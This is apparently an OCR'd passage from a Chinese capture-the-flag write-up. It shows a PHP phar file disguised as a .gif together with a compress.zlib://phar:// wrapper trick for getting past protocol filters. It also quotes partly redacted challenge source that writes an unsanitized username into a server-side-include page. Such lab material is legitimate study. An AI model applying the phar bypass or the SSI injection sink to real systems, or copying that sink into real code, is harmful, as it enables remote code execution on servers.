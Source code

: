 ```
$phar->setMetadata($y1ng);//这是数据
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

@rename("web1.phar", "y1ng.gif");
```

```
compress.zlib://phar://ying.gif/test.txt
```

这样联合绕过协议的限制，它不香吗？

## 十 BJDCTF-2020-Web-Cookie is so subtle!

这里就是一个错觉，有几个点（原题，又忘了。。。

1.cookie中数据不需要url编码传输

2.SSI的注入

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
